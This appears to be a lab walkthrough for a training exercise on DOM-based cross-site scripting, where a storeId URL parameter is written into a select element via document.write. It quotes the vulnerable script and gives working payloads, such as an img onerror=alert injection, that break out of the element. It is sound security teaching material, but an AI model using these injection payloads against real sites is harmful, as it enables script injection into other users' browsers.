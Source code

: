 # Lab: DOM XSS in document.write sink using source location.search inside a select element

 This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function. 


# Step 1 Locate a location to test for DOM XSS on webapp

I find the document.write function for checking the stock of a product

![image](https://user-images.githubusercontent.com/83407557/211238756-70f19ee8-891f-4dd0-8791-f41fa09692be.png)

# Step 2 Use the source luke

Looking at the javascript:

```javascript

                                var stores = ["London","Paris","Milan"];
                                var store = (new URLSearchParams(window.location.search)).get('storeId');
                                document.write('<select name="storeId">');
                                if(store) {
                                    document.write('<option selected>'+store+'</option>');
                                }
                                for(var i=0;i<stores.length;i++) {
                                    if(stores[i] === store) {
                                        continue;
                                    }
                                    document.write('<option>'+stores[i]+'</option>');
                                }
                                document.write('</select>');
```

I am going want to break out of this select element using the StoreId source:

```javascript
document.write('<select name="storeId">');
```

So if I use the following:

```javascript
&storeId=BAD STUFF HERE
```
and add it onto the request for a product:

```
/product?productId=1&storeId=BAD STUFF HERE
```

I can see that "BAD STUFF HERE" is now one of the store options:

![image](https://user-images.githubusercontent.com/83407557/211239805-5d65e27c-70b8-47eb-8531-9af60f802915.png)

# Step 3 Break out of select element

Now that I can hijack the document.write sink, I still need to break out of the select element

```html
script
<select name="storeId">

breaking out
  "></select>BREAK OUT
```
So the new url would be

```
/product?productId=1&storeId="></select>BREAK OUT
```

![image](https://user-images.githubusercontent.com/83407557/211240727-c6b2e24c-cfd1-47c0-9d00-aa26a10c7362.png)

# Step 4 Use XSS once broken out

Now I know that this is how I am meant to solve this lab with a payload like:

```
/product?productId=1&storeId="></select><img src onerror=alert(1)>
```

Which I will show:

![image](https://user-images.githubusercontent.com/83407557/211241007-cb2aed49-0b75-4e86-ac96-72b6d6ceff3e.png)

![image](https://user-images.githubusercontent.com/83407557/211241039-9f19ebff-daac-4d1c-802e-037e701f56ff.png)

# Alternative

However, it is not required to close the select element to get XSS to fire off, and alternate payload could be something like 

```
/product?productId=1&storeId="><img src onerror=alert(2)>
```

![image](https://user-images.githubusercontent.com/83407557/211241288-4f2213f0-85fa-4e74-9870-3cdcf6f42f43.png)

And you can see why just looking at the elements in dev tools:

![image](https://user-images.githubusercontent.com/83407557/211241413-29d5b365-d9d0-47c1-89bb-359069944350.png)

Furthermore the "> isn't required either as just setting the storeId as a basic XSS payload with script tags will also work:

![image](https://user-images.githubusercontent.com/83407557/211241596-ca13f2ee-f5e4-4a97-ba32-19e7f2581dd6.png)

For the same reason:

![image](https://user-images.githubusercontent.com/83407557/211241621-80e8dae8-494c-4fd1-af90-7d1aec68bdf6.png)

Another option for searching for this would have been to use a canary from DOM invader, once the StoreId source was initially found:

![image](https://user-images.githubusercontent.com/83407557/211241811-b8c10709-8728-42c2-921e-234575373f55.png)
